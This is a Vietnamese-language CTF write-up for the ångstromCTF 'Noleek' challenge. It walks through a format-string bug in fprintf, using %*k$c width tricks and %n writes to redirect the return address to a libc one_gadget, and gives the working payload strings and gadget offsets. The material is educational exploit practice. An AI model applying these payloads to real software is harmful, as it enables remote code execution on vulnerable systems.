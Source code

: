 # Angstromctf - Noleek

# 1. Xem thông tin file

Ta sẽ dùng lệnh `file` để xem thông tin file challenge:
```
noleek_patched: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically linked, interpreter ./ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=07cfd746eba1468d59b47bae05e6420b85696e4b, not stripped
```
Đây là file 64-bit không bị ẩn tên hàm. Kế đến, ta sẽ kiểm tra security của file:
```
Arch:     amd64-64-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX enabled
PIE:      PIE enabled
```

Tiếp đến đưa file vào ida-64bit

![main.png](images/main.png)

# 2. Phân tích 

Ở bài này cho ta nhập 2 lần và ta có nhận ra lỗi format strings tại `fprintf(stream, s);`

Do ở đây ghi chuỗi fmt vào file `/dev/null` nên ta không phải lo về số lượng ký tự in ra.

Bài này không có hàm win và có giới hạn fmt nên ta sẽ sử dụng `one_gadget`

# 3. Khai thác

`%*<k>$c` : ghi số lượng ký tự bằng với giá trị tại vị trí thứ k nó trỏ vào
`%<k>$n`  : ghi đè 4 bytes tại vị trí và giá trị của vị trí thứ k trỏ vào 
`%<k>c`   : ghi k ký tự ra màn hình console
Mình sẽ đi dbg để kiếm địa chỉ các thanh ghi

![gdb1.png](images/gdb1.png)

Ở đây là con trỏ `stream` chứa địa chỉ của chuỗi sau khi đã bị format strings

![gdb2.png](images/gdb2.png)

Ok vậy là từ đó mình có thể dễ dàng tìm và thấy các địa chỉ trên stack và dùng format strings để sửa thanh ghi có quyển `write`

![gdb3.png](images/gdb3.png)

Nhận thấy rằng ở thanh ghi số 16 có chứa địa chỉ ở phần sau khi sử dụng fmt

( %46$p ), khi ấy mình sẽ sửa giá trị tại `0x7ffe9fa71ee8` thành giá trị của `ret_addr`.

Nhìn qua mình thấy địa chỉ %1 có giá trị `0x7ffe9fa71da0` nhỏ hơn giá trị của `ret_addr` là `56` nên mình sẽ ghi 56 ký tự và sử dụng `%*<k>c` để ghi

```
payload = b"%56c%*1$c%16$n"
p.sendlineafter(b'leek? ', payload)
```

![gdb4.png](images/gdb4.png)

Ok vậy là đã xuất hiện địa chỉ của `ret_addr` trên stack (cụ thể là vị trí thứ 46)

![gdb5.png](images/gdb5.png)

Xuất hiện 1 địa chỉ `__libc_start_main+128` nhỏ hơn các giá trị `one_gadget` mình đã chuẩn bị sẵn nên mình sẽ in ra số ký tự = giá trị tại địa chỉ

này và thêm `%<x>c` để có thể có đủ ký tự của `one_gadget` và ta ghi vào địa chỉ thử 46 (địa chỉ chứa `ret_addr`) 

```
og0 = 158711 # 0x50a37
og1 = 794289 # 0xebcf1
og2 = 794293 # 0xebcf5
og3 = 794296 # 0xebcf8
payload = b'%' + str(og3).encode() + b'c%*32$c%46$n'
p.sendlineafter(b'more leek? ', payload)
```

![og.png](images/og.png)

Vậy là ta đã `ret2one_gadget` rồi. Ở đây mình chỉ cần `one_gadget` phù hợp là có thể lấy shell!!!
